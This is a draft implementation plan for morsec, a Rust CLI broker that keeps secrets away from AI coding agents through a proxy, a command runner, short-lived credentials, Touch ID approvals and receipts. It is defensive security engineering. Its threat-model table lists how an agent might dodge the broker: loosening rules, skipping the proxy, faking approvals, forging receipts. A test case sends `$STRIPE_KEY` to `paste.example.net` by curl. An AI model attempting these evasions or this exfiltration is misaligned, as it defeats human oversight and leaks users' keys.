

# morsec: technical implementation plan

Status: draft, 13 November 2026. Source of truth for *what* we build: the PRD and mockup on the
Intraface board (https://app.intraface.cc/b/warden-keys-mockup-gfnm5). This document is *how*:
architecture, interfaces, and the gstack-loops breakdown that builds it end to end.

**Scope, 14 November 2026: CLI only.** morsec ships as a command-line tool for now, with no app:
no Swift approval helper and no menu-bar app. Approvals happen in the terminal with Touch ID (L11),
L25 `menubar-app` is deferred, and L28 is a CLI release. The first public CLI release comes after
v0.2 (see "First public CLI release" after the v0.2 gate).

Every loop below becomes `gloop new <slug>` → `/gloop-spec` (its card here is the brief for
`SPEC.md`) → `/gloop-build` → `/gloop-ship`. Every loop follows the ARI-42 skill: each card names
the requirements it touches and the test that proves them.

---

## 1. At a glance

- **30 loops in 6 waves**, from an empty repo to v1.0; 29 are active, because L25 `menubar-app`
  is deferred (CLI only). Loops inside a wave run in parallel; waves run in order.
- **Critical path:** `foundation` → `swap-proxy` → `daemon` → `connect-claude` → `e2e-canary`
  (v0.1), then `run-core` → `run-postgres` (v0.2), `mint-*` and `linux-platform` (v0.3),
  `release-1.0` (v1.0).
- **Stack:** Rust for everything, CLI only. Approvals are shown in the terminal and confirmed with
  Touch ID through `LocalAuthentication`; there is no Swift app. One `ms` binary installed under
  two names, `ms` and `mors`.
- **Parallel safety:** `foundation` creates every crate as a stub and freezes the shared
  interfaces, so parallel loops each own separate folders and never edit the same files.



Arrows are hard dependencies. Wave 5 also uses L02, L04 and L11, which are merged long before.
L25 (dashed) is deferred by the CLI-only decision and is not on the path to v1.0. The first
public CLI release is cut once L11–L17 and L29 have merged (see "First public CLI release").

---

## 2. Promise coverage

Every feature promised on the board, and the loop that delivers it. Nothing on the board is left
without an owner.

| Promise (PRD § / mockup screen) | Loop(s) |
|---|---|
| `ms` / `mors`, same program, two names | L00, L10 |
| `brew install morsec` | L10 |
| `ms init`: create vault, Touch ID once | L01, L07 |
| `ms add <name>` (hidden input) | L04 |
| `ms add` from 1Password / Bitwarden | L26 |
| `ms import .env`: move values to Keychain, rewrite with `ms://` refs, pick mechanism + hosts/commands per key | L04 |
| `.env` safe to commit; `cat .env` / `echo $KEY` shows only refs | L04, L09 (test) |
| Swap: key swapped in on the way out, only to its own hosts | L05 |
| Blocked exfiltration to an unknown host, and recorded | L05, L02 |
| Agent-supplied auth headers stripped; redirects carry no credentials; metadata and private ranges blocked | L05 |
| Run: broker runs `psql`/`prisma` read-only, returns redacted rows | L12, L15 |
| Run: SSH and git | L16 |
| Run: cloud CLIs, deploy scripts | L12 (generic allowlisted command), L18 |
| Mint: AWS 15-minute sessions | L18 |
| Mint: GitHub App tokens | L19 |
| Mint: Postgres temporary roles | L20 |
| Production keys ask first: morsec shows the exact command, key, effect and "this exact command only, once" (in the terminal, as inert text, under the CLI-only decision; the mockup draws a dialog), Touch ID | L11, L15 |
| Approval bound to arguments; once per session option | L11 |
| `ms connect claude-code` (terminal, desktop app, IDE): env, sandbox proxy, allowed domains, MCP, hooks through `ms run` | L08 |
| `ms connect codex` (CLI, app, IDE): `shell_environment_policy`, network proxy, `mcp_servers.ms` | L13 |
| `ms connect cursor`, `gemini` | L22 |
| `ms mcp`: run capabilities as tools (`db_query`, `deploy_staging`) | L14 |
| `ms run -- <cmd>`: start any agent or tool with refs resolved by the broker | L12 |
| `ms rules <name>`: hosts, commands, tier, session length; project rules can only tighten | L03 |
| `ms doctor`: every agent really routes through morsec; direct internet blocked | L17 |
| Receipts: one per use, hash-chained, all PRD §9 fields | L02 |
| `ms log`, `ms log --export` | L02 |
| `ms log --export --ari42` evidence pack | L27 |
| `ms stop` kill switch, revokes grants and minted tokens | L07, L18–L20 |
| "morsec on · N secrets protected" status | L07 (`ms status`), L08 (Claude Code status line) |
| Vault: Keychain restricted to the signed binary; values wiped after use; nothing in args/env/logs | L01, L12, L23 |
| Linux: TPM-backed storage under a separate system user | L21 |
| Run-mode output redaction, including base64 and URL-encoded forms | L12 |
| Fail closed and loud | L05, L12, L07 |
| Hosts an agent's sandbox may reach without a key (npm, git hosts) work through msd, allowlisted and nothing else | L29 |
| Menu-bar app: keys, connected agents, today's record, Add key, Export for review, Stop all agent access | **Deferred** (CLI only, 2026-11-14): L25 is out of scope. The CLI covers each item: `ms status`, `ms log`, `ms log --export`, `ms add`, `ms stop` |
| Signed releases, reproducible builds, no unsigned auto-update | L10, L28 |
| Success measures: time to first protected session, prompts per session, zero leaks in transcripts | L09 (`ms scan`), L02 (`ms stats`), L28 |
| PRD open question 2: does the Codex app read `~/.codex/config.toml` like the CLI? | L13 (spike, first task) |

---

## 3. Architecture

### 3.1 Processes

| Process | What it is | Runs as | Holds secret values? |
|---|---|---|---|
| `ms` (alias `mors`) | CLI. Talks to the daemon over its socket. Never reads a value. | the user | No |
| `msd` | Broker daemon: vault access, swap proxy, command runner, minter, approvals, receipts. LaunchAgent on macOS, systemd service on Linux. Hardened runtime, so same-user processes can't attach a debugger. | the user (macOS v0.1–v0.2); `_morsec` system user (Linux, and macOS after L23) | Yes, briefly, in zeroized buffers |
| `ms-shim` | Tiny binary hard-linked as `psql`, `prisma`, `ssh`… in a shim directory placed first on the agent's `PATH`. Forwards to `msd` only when the command line contains an `ms://` ref; otherwise execs the real tool unchanged. | the agent | No |
| `ms mcp` | stdio MCP server started by the agent; a thin client of `msd`. | the agent | No |
| Approval prompt (L11) | Part of `ms` / `msd`, no separate app: prints the request on the user's terminal as inert text and asks for Touch ID through `LocalAuthentication`, with the login password as fallback. | the user | No (sees the command, never the value) |
| ~~`Morsec.app`~~ | Menu-bar app: deferred (L25, CLI-only decision). | | |

### 3.2 The three mechanisms

**Swap (HTTP APIs).** Connectors point the agent's `HTTPS_PROXY` at `msd` (`127.0.0.1:<port>`).
For hosts bound to a key, `msd` terminates TLS with a leaf certificate from the morsec CA,
replaces the `ms://` placeholder in the configured location (a header, basic auth or a query
parameter, set per provider in the catalog), strips any other credential the agent added, and
forwards over a fresh TLS connection. Hosts no key is bound to are tunnelled without inspection
when they are on the allowlist (kept in the MAC'd rules, L29), and refused otherwise. A placeholder seen on a request to a host
it is not bound to is blocked and recorded.

- CA: generated at `ms init`. Its private key lives in the vault and never leaves `msd`. The CA
  carries X.509 **name constraints** limited to the bound hosts, so even a stolen CA key could not
  impersonate other sites. Adding a host re-issues the CA (one prompt).
- Trust: added to the user's login keychain trust settings at init (macOS asks once). That is
  required, not optional: Go tools such as the Stripe CLI and `gh` use the macOS system verifier
  and ignore `SSL_CERT_FILE`. For OpenSSL, Python and Node tools, connectors also set
  `SSL_CERT_FILE`, `REQUESTS_CA_BUNDLE` and `CURL_CA_BUNDLE` to a bundle (system roots plus the
  morsec CA), and `NODE_EXTRA_CA_CERTS`.
- Fallback for tools that pin certificates: the base URL points at `http://127.0.0.1:<port>/p/<provider>`,
  the provider is opted out per host, and the CLI warns (PRD §13).
- Placeholders: by default the value is the reference itself (`ms://stripe/test`). For SDKs that
  validate key format, the catalog can define a shaped placeholder (`sk_test_ms_…`) that `msd`
  maps back to the reference.

**Run (non-HTTP: databases, SSH, git, cloud CLIs).** The shim forwards `argv`, the working
directory and stdin to `msd`. Policy checks the key's command allowlist. A run adapter turns the
call into an exec plan: an absolute binary path, an `argv` array (never a shell string), a minimal
environment, and the secret delivered the least exposed way that tool supports. Output streams
back through a redactor.

- Postgres: the password moves from the URL into a 0600 passfile in a directory only `msd` can
  reach, never into `argv`. A read-only rule sets `default_transaction_read_only=on` and should
  use a read-only role.
- SSH: `msd` is the SSH agent (`SSH_AUTH_SOCK`). The private key never leaves it, and the
  destination is checked with OpenSSH's session-bind extension.
- git over HTTPS: `msd` is a git credential helper limited to the bound host.

**Mint (cloud and platform credentials).** `msd` creates a short-lived, narrow credential per
session, and the agent only ever holds that.

- AWS: `msd` serves the container-credentials endpoint (`AWS_CONTAINER_CREDENTIALS_FULL_URI` on
  loopback, plus an authorization token), so every SDK and the AWS CLI pick up 15-minute STS
  credentials with a session policy. No `AWS_SECRET_ACCESS_KEY` anywhere.
- GitHub: App installation tokens limited to named repositories and permissions.
- Postgres: `CREATE ROLE … VALID UNTIL` with grants copied from a template role.

### 3.3 Policy, approvals and the same-user problem

On macOS in v0.1–v0.2 the agent and `msd` run as the same Unix user. The design has to stay safe
anyway:

| Agent tries to | Why it fails |
|---|---|
| Read a value from the Keychain | Item access is bound to `msd`'s code signature (designated requirement). Another binary, or a replaced `msd`, can't read it. |
| Read `msd`'s memory | Hardened runtime, no `get-task-allow`; values are zeroized after use. |
| Loosen the rules file | Rules are MAC'd with a key in the vault; `msd` rejects a file with a bad MAC. Loosening goes through `ms rules`, which needs Touch ID. A project `.morsec.toml` may only tighten. |
| Edit its own connector settings to skip the proxy | It never had a value, so nothing leaks; it only loses the ability to use keys. `msd` watches those files and alerts on change, and `ms doctor` reports drift. Optional: Claude Code managed settings (root-owned). |
| Fake an approval | The prompt is rendered by morsec from the real exec plan, never from agent text, on the user's terminal, and needs Touch ID (or the password). A caller inside an agent session can't approve, its own request or any other. The approval token is an HMAC over (session, key, argv hash, cwd, expiry), checked by the executor. |
| Forge receipts | The chain is hash-linked and every record is HMAC'd with a vault key, so a rewrite fails verification. |
| Read the secret from a run-mode child's env or passfile | **Residual risk in v0.2.** A same-user process can read another process's environment and files. Mitigations: prefer agent and helper protocols (SSH agent, git credential helper, AWS endpoint) that never put the value in a child; keep passfiles short-lived. **L23 `isolated-runner`** runs children as `_morsec`, which closes this. Recorded in `ARI42.md` as Partial until then. |

**Session identity.** Unix-socket clients (CLI, shim, MCP) are identified by peer PID
(`LOCAL_PEERPID` on macOS, `SO_PEERCRED` on Linux). Walking the process tree up to the agent
process gives `{agent, pid, start time}`, which is the session. Proxy clients arrive over TCP, so
`msd` maps the loopback source port to a PID (libproc on macOS, `/proc/net/tcp` on Linux), with a
per-connector proxy username as a cross-check.

**Policy** is a pure function: `decide(rules, session, request) -> Allow | Deny(reason) |
NeedsApproval(request)`. Test keys never prompt. Production keys need an approval. Everything is
denied by default.

**Fail closed.** If `msd` is down, refs don't resolve and the proxy refuses connections. Every
error says what happened and the fix, for example `morsec: daemon not running. Start it with: ms start`.

### 3.4 Receipts

An append-only JSONL file. Each record holds: time, agent, session, key, mechanism, host or
command, argv hash and redacted argv, rule version, approval (who, how, token id), result, and the
previous record's hash. Each record is HMAC'd with a vault key, and a signed checkpoint is written
every N records. `ms log` filters records, `ms log --verify` checks the chain, and `ms stats`
reports prompts per session and blocks per day.

### 3.5 Files and paths

| What | macOS | Linux |
|---|---|---|
| Socket | `~/Library/Application Support/morsec/msd.sock` (0600) | `/run/morsec/msd.sock` (group `morsec`) |
| Rules | `…/morsec/rules.toml` + `.mac` | `/var/lib/morsec/rules.toml` |
| Receipts | `…/morsec/receipts/*.jsonl` | `/var/lib/morsec/receipts/` |
| CA bundle | `…/morsec/ca-bundle.pem` | `/var/lib/morsec/ca-bundle.pem` |
| Shims | `~/.morsec/shims/` | `~/.morsec/shims/` |
| Project rules | `<repo>/.morsec.toml` (committable, tighten-only) | same |

### 3.6 Tech choices

| Area | Choice | Why |
|---|---|---|
| Core language | Rust (stable, `cargo --locked`) | Memory safety in the component that holds secrets, plus `zeroize` and `secrecy` for wiping values (PRD §9 "values wiped after use"). Go's GC copies make wiping unreliable. |
| Async and HTTP | `tokio`, `hyper` 1.x, `rustls`, `rcgen` | Standard and auditable; no OpenSSL in the proxy. |
| macOS Keychain | `security-framework` (data-protection keychain, access control, user-presence for production items) | Lets the Keychain itself require biometry for production keys. |
| Touch ID | `LocalAuthentication` (`LAContext`) called from the Rust CLI; the request itself is printed in the terminal | CLI only (2026-11-14). The system Touch ID sheet can't show the full command, so the terminal shows it; but a same-uid agent can redraw the terminal, so the sheet carries the binding (key, tier and a request code the terminal repeats). |
| MCP server | the official Rust MCP SDK (`rmcp`) | Pin the exact version (MCP-1). |
| CLI | `clap` | One binary; `mors` is a symlink. |
| Storage | JSONL receipts; TOML rules | Readable, diffable, easy to export. |
| Linux vault | TPM2-sealed key encrypting a vault file owned by `_morsec`; falls back to a file readable only by `_morsec` when there's no TPM | PRD §6. |
| Menu-bar app | none (L25 deferred) | CLI only for now. |
| Release | A local release script on macOS (no hosted CI in v1, D7): Developer ID signing and notarization, Homebrew tap, SBOM, signed checksums | PRD §9 supply chain. |

### 3.7 Repository layout (loop ownership)

```text
Cargo.toml                 workspace; all members + [workspace.dependencies]   (L00 only)
crates/
  ms-core/                 SecretRef, Key, Mode, Tier, Rule, Session, Receipt, errors   (L00)
  ms-ipc/                  socket protocol v1, client, server skeleton                  (L00)
  ms-session/              peer identity, process tree, port→pid                        (L06)
  ms-vault/                Vault trait (L00) · macos/ (L01) · linux/ (L21) · memory/ (L00)
  ms-rules/                rules model, MAC'd store, tighten-only merge, policy fn      (L03)
  ms-receipts/             chain, HMAC, query, export, stats                            (L02, L27)
  ms-import/               dotenv parser, provider catalog, classifier, rewriter        (L04, L26)
  ms-proxy/                swap proxy, CA, egress policy, SSRF guard                    (L05)
  ms-run/                  runner core, shim, redactor (L12) · adapters/pg (L15) · adapters/ssh_git (L16)
  ms-mint/                 Minter trait (L00) · aws/ (L18) · github/ (L19) · pg/ (L20)
  ms-approve/              Approver trait (L00) · macos/ (L11) · linux/ (L21)
  ms-connect/              Connector trait (L00) · claude/ (L08) · codex/ (L13) · cursor/ gemini/ (L22)
  ms-mcp/                  MCP server                                                   (L14)
  msd/                     daemon binary, service wiring, launchd/systemd units         (L07)
  ms-cli/                  `ms` binary; each command in its own module                  (L00 skeleton; owners per command)
packaging/                 Homebrew formula, signing, notarization, SBOM                (L10, L28)
tests/e2e/                 fake agent, canary secrets, real-agent runs                  (L09, L17)
docs/                      this plan, threat model (L24), evidence/<slug>.md per loop
```

---

## 4. Interfaces frozen in `foundation`

Parallel loops build against these. Changing one after wave 1 starts needs its own small loop and
a rebase of everything in flight.

```rust
// ms-core
pub struct SecretRef { pub name: KeyName }          // "ms://stripe/test"; name = [a-z0-9-]+(/[a-z0-9-]+)*
pub enum Mode { Swap, Run, Mint }
pub enum Tier { Test, Production }                  // Production => approval required
pub struct SessionId { pub agent: AgentKind, pub pid: u32, pub started: u64 }

// ms-vault: values never leave a closure; buffers are zeroized on drop
pub trait Vault: Send + Sync {
    fn put(&self, name: &KeyName, value: SecretBytes, meta: KeyMeta) -> Result<()>;
    fn with_secret<R>(&self, name: &KeyName, f: &mut dyn FnMut(&[u8]) -> R) -> Result<R>;
    fn delete(&self, name: &KeyName) -> Result<()>;
    fn list(&self) -> Result<Vec<KeyMeta>>;          // metadata only, never values
}

// ms-rules
pub fn decide(rules: &Rules, s: &SessionId, req: &Request) -> Decision; // Allow | Deny(Reason) | NeedsApproval(ApprovalRequest)

// ms-approve
pub trait Approver { fn ask(&self, req: &ApprovalRequest, timeout: Duration) -> ApprovalOutcome; } // Approved(Token) | Denied | TimedOut

// ms-receipts
pub trait ReceiptSink { fn append(&self, e: ReceiptEvent) -> Result<ReceiptId>; }

// ms-run
pub trait RunAdapter { fn matches(&self, argv: &[OsString]) -> bool;
                       fn plan(&self, call: &RunCall, v: &dyn Vault) -> Result<ExecPlan>;
                       fn preview(&self, call: &RunCall) -> Option<EffectPreview>; } // "3 rows in orders"

// ms-mint
pub trait Minter { fn mint(&self, key: &KeyName, s: &SessionId, scope: &Scope) -> Result<MintedCred>;
                   fn revoke_all(&self) -> Result<()>; }

// ms-connect
pub trait Connector { fn detect(&self) -> Detection; fn plan(&self, cfg: &ConnectCfg) -> ConfigDiff;
                      fn apply(&self, d: &ConfigDiff) -> Result<()>; fn remove(&self) -> Result<()>;
                      fn verify(&self) -> Vec<Check>; }
```

IPC v1: length-prefixed JSON over the Unix socket. Messages: `Status`, `PutKey`, `ListKeys`,
`Run`, `RunStream`, `Mint`, `RulesGet`, `RulesProposeLoosen` (needs Touch ID), `Stop`, `Start`
(needs Touch ID), `LogQuery`, `DoctorProbe`. There is deliberately **no message that returns a
secret value**, and no `ms get` / `ms reveal` command.

As frozen by L00: `Run` carries only `{ argv, cwd }`, not a client-built `RunCall`. The session
is never taken from the client; the daemon derives it from the peer (L06), which is what AUTH-1
requires. `RunStream` is added by L12 when output streaming lands. `PutKey`'s value travels in a
separate raw frame after the JSON.

Added by L07, backwards-compatible within v1 (new request fields are optional and default to the
old behaviour; a default-valued field is not written, so old messages are byte-identical):

- Replies: `Ok { message }` (`PutKey`, `Stop`, `Start`, a saved rules change), `Keys { keys }`
  (`ListKeys`, metadata only, `morsec/` keys never listed), `Rules { version, toml, notes }`
  (`RulesGet`: the user rules as `rules.toml` text, MAC-verified by msd; the client merges a
  project `.morsec.toml` itself, so msd never reads a path a client names).
- `Status` gains optional `running`, `keys`, `proxy_port` and `alerts`.
- `RulesProposeLoosen` gains `rule` (a rules file holding only that key; absent = remove the
  key's rule) and `at_terminal`. msd classifies the change: tightening is saved, loosening needs
  an approval. `Start` gains `at_terminal`.
- `at_terminal` is the pre-L11 recovery path (L07 SPEC D-A): msd accepts it only from a caller
  outside every agent session, after `ms` confirmed on `/dev/tty`. L11 replaces it with Touch ID.
- Error codes `busy`, `denied`, `needs_approval`, `not_initialized`, `invalid`.
- `Scan` (L09, no fields) answers `ScanReport { findings: [{file, line, key, encoding}],
  files_scanned, bytes_scanned, keys_checked, skipped_keys, notes, complete }`. msd picks the
  transcript directories itself, refuses the request inside an agent session or while stopped,
  and writes one receipt per key per scan; no field can carry a value. Until L11 a detached
  same-user process is not an agent session (ARI42 INJ-5 residual); L11 puts `Scan` behind the
  approver.
- The server keeps reserved slots for `Status`/`Stop` when its 64 general slots are full, caps
  connections per peer process (8), and caps each connection's lifetime (10 min) and requests
  (1024), so a same-user process can't starve the kill switch.

---

## 5. Loop cards

Sizes: **S** ≈ 1–2 agent-days, **M** ≈ 3–5, **L** ≈ 6–10. "Owns" lists the only paths the loop
may change, besides its own `docs/evidence/<slug>.md` and its rows in `ARI42.md`.

### Wave 0 (sequential)

#### L00 `foundation` · M
- **Depends on:** nothing. **Owns:** root `Cargo.toml`, `Cargo.lock`, `crates/*/` stubs,
  `ms-core`, `ms-ipc`, the traits in §4, `ms-vault/memory`, `ms-cli` skeleton, `scripts/check.sh` + `package.json` (local gate),
  `loops.json`, `rust-toolchain.toml`, `deny.toml`.
- **Build:**
  - Cargo workspace with every crate from §3.7 as a compiling stub, and `[workspace.dependencies]`
    pinned for everything later loops will need (tokio, hyper, rustls, rcgen, clap, serde,
    zeroize, secrecy, security-framework, rmcp, aws-sdk-sts…). This keeps lockfile conflicts rare.
  - `ms-core` types, a `SecretRef` parser, errors with fail-closed messages.
  - The §4 traits, an in-memory vault, fake approver, fake minter and fake connector for tests.
  - IPC v1 framing, a client, and a server skeleton.
  - `ms` binary built with clap, with every PRD command stubbed so it prints "not yet built"; `mors` symlink.
  - Local gate `scripts/check.sh` (no hosted CI in v1, D7), wired into gloop's build gate through
    `package.json`: fmt, build, clippy `-D warnings`, tests, `cargo deny` (licences, advisories, bans), `cargo audit`,
    `--locked` builds on macOS and Linux runners.
  - `loops.json`: dev command `cargo run -p msd -- --foreground --port {{port}}`; extend
    `sensitivePaths` with `crates/ms-vault/**`, `crates/ms-proxy/**`, `crates/ms-run/**`,
    `crates/ms-approve/**`, `crates/ms-rules/**`, `apps/MorsecApprove/**`.
  - `REVIEW.md` additions: unsafe Rust needs a justification comment; no `println!` or tracing of
    `SecretBytes`; `Debug` for secret types prints `[redacted]`.
- **Verify:** workspace builds and `scripts/check.sh` passes; `SecretRef` parser property tests; a test that
  `format!("{:?}", secret)` contains no bytes of the value; IPC round-trip test.
- **ARI-42:** GW-2 (lockfile, `--locked`, cargo-deny), SDLC-6 (every new crate passes cargo-deny and
  an existence check in the local gate), EVAL-1 (the gate exists and gloop's build gate requires it).

### Wave 1 (parallel, 6 loops; run 4 at a time if you want to keep review load manageable)

#### L01 `vault-macos` · M
- **Depends on:** L00. **Owns:** `crates/ms-vault/src/macos/`.
- **Build:**
  - **Spike first (day 1):** confirm a Developer ID-signed `msd` inside a minimal helper `.app`
    wrapper with an embedded provisioning profile can use the data-protection keychain with a
    `keychain-access-groups` entitlement. Fallback: the legacy login keychain with an ACL bound to
    the designated requirement. Write the result into `docs/evidence/vault-macos.md`.
  - Items: service `cc.morsec.vault`, account = key name. Production-tier items use
    `SecAccessControl` with `.userPresence`. Values are read into `SecretBytes` (zeroize), and
    `with_secret` never copies out.
  - A vault HMAC key for rules and receipts, and the CA private key, as non-exportable items.
- **Verify:** an unsigned or differently signed test binary can't read an item (ACL test); a
  production item needs user presence (manual check recorded); memory test with a canary value
  and a core dump scan in the local gate where possible.
- **ARI-42:** GW-1, INJ-5.

#### L02 `receipts` · M
- **Depends on:** L00. **Owns:** `crates/ms-receipts/` (except `export/ari42`), `ms log`, `ms stats` CLI modules.
- **Build:** JSONL writer with hash chain plus per-record HMAC (the key comes through the `Vault`
  trait), checkpoints, rotation, a query engine (time, agent, key, result), `ms log`,
  `ms log --verify`, `ms log --export` (JSON, CSV), `ms stats` (prompts per session,
  blocks, approvals). LOG-2 detector: N blocked attempts by one session within M minutes raises an
  alert event, and optionally stops that session.
- **Verify:** tampering with, removing or reordering any record fails `--verify`; every PRD §9
  field is present in a sample receipt (LOG-1); the redactor is applied before write (no value in
  receipts, checked with a canary); the alert fires in a test (LOG-2).
- **ARI-42:** LOG-1, LOG-2, LOG-4 (basic export).

#### L03 `rules-policy` · M
- **Depends on:** L00. **Owns:** `crates/ms-rules/`, `ms rules` CLI module.
- **Build:** rules model (per key: mode, hosts, commands with argv patterns, tier, session TTL,
  read-only); TOML store MAC'd with a vault key; project `.morsec.toml` merge that may **only**
  tighten (host and command sets are intersected, TTL is the minimum, tier is the maximum);
  `decide()`; rule versioning. `ms rules <name>` shows the rule; changing it to looser needs an
  approval (`RulesProposeLoosen`).
- **Verify:** property test that a project file can never widen the effective rule; a file with a
  tampered MAC is rejected (fail closed); a decision table test for every mode and tier; a
  production key always yields `NeedsApproval`.
- **ARI-42:** AUTH-2, AUTH-3 (policy side), SDLC-4.

#### L04 `import-env` · M
- **Depends on:** L00. **Owns:** `crates/ms-import/`, `ms import` and `ms add` CLI modules, `catalog/providers.toml`.
- **Build:**
  - A dotenv parser covering quotes, `export`, multiline values, comments and `${VAR}`
    interpolation (left untouched).
  - Provider catalog: prefix and URL patterns → provider, mode, hosts, credential location, tier
    hints (`sk_live_` → production, `sk_test_` → test, URLs with `prod` in the host → production).
    At least Stripe, OpenAI, Anthropic, GitHub, Slack, SendGrid, Twilio, Postgres URLs, MySQL URLs
    and AWS key pairs. Unknown values default to swap with no hosts (unusable until `ms rules`
    adds one), which fails closed.
  - Interactive review of the proposed table (the mockup's), then an atomic `.env` rewrite. No
    plaintext backup is kept.
  - A warning if `.env` was ever committed (`git log --all -- .env`): rotate those keys.
  - `ms add <name>` with hidden TTY input, refusing a non-TTY stdin unless `--stdin` is given.
- **Verify:** parser fuzz target (cargo-fuzz) and golden tests; after import, `.env` holds only
  refs and a canary value appears nowhere on disk except in the Keychain; classifier table tests.
- **ARI-42:** INJ-5, GW-1.

#### L05 `swap-proxy` · L (critical path)
- **Depends on:** L00. **Owns:** `crates/ms-proxy/`.
- **Build:**
  - HTTP/1.1 and HTTP/2 proxy on loopback, supporting CONNECT.
  - CA with name constraints; leaf certificates per host, cached.
  - For bound hosts: TLS termination, placeholder substitution in the catalog's location,
    removal of any other credential header the agent supplied, upstream TLS with system roots.
  - Hosts not on the allowlist are refused. A placeholder on a request to a host it isn't bound
    to gives `403` plus a receipt.
  - SSRF guard: resolve DNS, then refuse loopback, private, link-local and `169.254.169.254`
    upstreams, and connect to the IP that was checked.
  - Redirects are never followed by the proxy, so credentials never move to a new host.
  - Base-URL mode (`/p/<provider>/…`) for pinned tools.
  - Streaming bodies; a size limit for MITM'd requests.
- **Verify:** an integration test against a local TLS echo server (the swapped key arrives, the
  agent's own `Authorization` header is replaced); the mockup's exfiltration case
  (`curl paste.example.net` with `$STRIPE_KEY`) is blocked and recorded; metadata IP and an
  arbitrary domain are unreachable (INJ-4); a fuzz target on the request-head parser; a Go-client
  test that system trust works.
- **ARI-42:** INJ-4, GW-1, INJ-2.

#### L06 `session-identity` · S
- **Depends on:** L00. **Owns:** `crates/ms-session/`.
- **Build:** peer PID from Unix sockets; process-tree walk to the agent root (Claude Code: `claude`
  and its desktop and IDE hosts; Codex: `codex`); session = `{agent, pid, start time}`; TCP
  loopback source port → PID lookup with a cache; a proxy username cross-check.
- **Verify:** tests launching nested fake-agent process trees; a PID-reuse test (start time
  differs, so it is a new session).
- **ARI-42:** AUTH-1.

### Wave 2 (v0.1)

#### L07 `daemon` · M (sequential, integrates wave 1)
- **Depends on:** L01, L02, L03, L05, L06. **Owns:** `crates/msd/`, `ms init`, `ms status`,
  `ms start`, `ms stop` CLI modules, LaunchAgent plist.
- **Build:**
  - **Keep the kill switch reachable (open from L00 security review, S6):** `ms-ipc` serves at most
    64 connections, and the idle timeout only bounds the gap between frames, so a same-user process
    that holds 64 connections open starves every other client. Before `Stop` ships: give each
    connection a total lifetime or request cap, cap connections per peer after the peer check, and
    reserve a slot (or a separate control socket) for `Stop`/`Status`. Test: 64 held connections do
    not delay `ms stop`.
  - **Harden socket setup first (open from L00 security review, S3):** `Server::bind` checks the
    directory by path, then binds and chmods by path. Under a parent directory another user can
    write, a rename between check and bind could redirect the socket. Open the directory with
    `O_DIRECTORY|O_NOFOLLOW`, check uid and mode with `fstat` on that descriptor, bind under a
    0077 umask, and re-check with `lstat` after binding. The default paths are not affected.
  - Assemble the services and the socket server with peer checks.
  - **Wire rules (open from L03):**
    - On start, load with `RulesStore::load(min_version)`, where `min_version` is the last
      `rule_version` in the receipt chain (rollback guard). On any error, use `Rules::tampered()`.
      `Rules::stopped` carries `ms stop`.
    - For each request, merge the repo's `.morsec.toml` with `ms_rules::effective`.
    - Run requests go through `decide_run` with the real argv. `decide` sees only the hash, so it
      matches only literal patterns.
    - IPC v1 can't carry rules. Add a rule payload to `RulesProposeLoosen` and a
      `ResponseBody::Rules` reply, in this loop or a small IPC loop. Then classify each change
      with `ms_rules::classify` and apply it with `RulesStore::save(new, approved, min_version)`.
      `save` refuses a loosening change unless it has an approval. Then switch `ms rules` from
      local, unverified reads to `RulesGet`.
  - `ms init`: vault, HMAC keys (`morsec/rules-mac` for rules, `morsec/receipts-hmac` for
    receipts, 32 bytes each), CA and its trust, LaunchAgent.
  - `ms status`: on/off and number of protected keys (the source of the mockup's pill).
  - `ms stop`: revokes every grant and puts the proxy in deny-all. It needs no approval, because
    tightening is always allowed.
  - `ms start`: needs Touch ID.
  - File watchers on connector settings that raise an alert on drift.
  - Hardened runtime entitlements.
- **Verify:** "flip the flag mid-run, the next request refuses" (AUTH-4); with the daemon down, the
  proxy port refuses and refs don't resolve (fail closed); a socket from a non-owner UID is rejected.
- **ARI-42:** AUTH-4, MCP-3 (socket auth).

#### L08 `connect-claude` · M
- **Depends on:** L07. **Owns:** `crates/ms-connect/src/claude/`, `ms connect`/`ms disconnect` for claude.
- **Build:**
  - **Verify Claude Code's current setting names first** (`env`, `sandbox.*`,
    `sandbox.network.*`, the MCP config scope, the hooks format) against the docs, and record them.
  - Writes into `~/.claude/settings.json` (user scope) in a marked, reversible block: `env` with
    refs, proxy variables and CA variables; the shim directory on `PATH`; sandbox enabled with
    proxy ports and `allowedDomains` from the rules; the MCP server `ms mcp`; existing hooks and
    local MCP servers wrapped in `ms run --`; an optional status line segment showing `ms status`.
  - Idempotent, merges with existing user settings, and `ms disconnect` restores the original exactly.
- **Verify:** golden diffs for empty, typical and complex existing settings files; round-trip
  apply then remove gives a byte-identical file; a live check in `tests/e2e`.
- **ARI-42:** SDLC-2, SDLC-4, MCP-4.

#### L09 `e2e-canary` · M
- **Depends on:** L07 (and L04 on main). **Owns:** `tests/e2e/`, `ms scan` CLI module.
- **Build:**
  - A fake agent: a process tree that runs `env`, `cat .env`, `curl` and `psql` the way an agent would.
  - Canary secrets (unique random values) imported into a throwaway vault.
  - Assertions that the canary never shows up in the fake agent's stdout, env, files or receipts.
  - `ms scan`: searches Claude Code (`~/.claude/projects/**.jsonl`) and Codex
    (`~/.codex/sessions/**`) transcripts for any vault value and its base64, base64url, URL and
    hex encodings. Matching runs inside `msd`; output gives file:line only, never the value.
  - A real-agent job (manual or nightly) running `claude -p` and `codex exec` against a fixture repo.
  - A `security-evals` step in `scripts/check.sh`, so the gloop build gate requires it (no hosted CI in v1, D7).
- **Verify:** the suite itself; an intentionally leaky fixture is caught.
- **ARI-42:** EVAL-1, GW-1 ("agent runs `env`, no key"), INJ-5.

#### L10 `release-pipeline` · M
